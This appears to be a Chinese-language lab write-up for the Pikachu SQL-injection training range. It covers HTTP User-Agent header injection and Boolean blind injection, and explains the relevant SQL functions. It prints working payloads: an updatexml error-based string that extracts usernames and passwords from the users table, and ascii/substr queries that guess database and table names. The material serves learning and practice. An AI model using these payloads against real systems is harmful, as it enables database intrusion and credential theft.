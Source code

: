 

### "http header"注入

#### 考点：http请求头注入

有些时候，后台开发人员为了验证客户端头信息，比如常用的cookie验证，或者通过http请求头信息获取客户端的一些信息，比如useragent、accept字段等等，会对客户端的http请求头信息获取并使用sql进行处理，如果此时没有足够的安全考虑，则可能会导致基于http头的sql注入漏洞

#### 思路

bp抓包，**选择user-agent进行传参**，因为发现user-agent标识出了我们，**单引号发现有报错信息**，直接使用我们准备好的payload

**payload**

```
1'or updatexml(1, concat(0x7e,(select group_concat(username,':',password) from users),'~'), 0) or '
```



### 盲注(base on boolian)

这道题，需要用or来进行连接

- and必须输入为真，并且会返回真的数据。

- or前为假，返回后面注入的查询语句

#### 考点：正确判断盲注闭合，学会构造payload，利用多种盲注函数

#### 准备

熟悉常见盲注函数，sleep()、length() 、substr() 、mid() 、left() 、ord()、ascii() 、right() 、if()、 reverse()

- **substr()：** **三个参数**，截断，返回一个字符串的一部分
  - 参数1：需要返回的字符串（就是注入payload）
  - 参数2：从哪里开始截断，可为负值，但一般为1
  - 参数3：需要截断的字符数量
- **ascii()：**将字符转换为ASCII，通常将substr()包裹在内进行判断
- **length()：**判断字符长度
- **sleep()：**延迟，让此语句运行N秒钟，**常与if连用**进行判断是否判断正确
- **if()：** **三个参数**，进行判断

#### 思路

**猜库**

```
?name=kobe' and ascii(substr(database(),1,1))=112--+
//判断得到库名是pikachu
```

**猜表**

```
?name=kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<120--+
//通过ASCII码大小判断得到表名


?name=kobe' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,2)='ht'--+
//直接字符找到
```
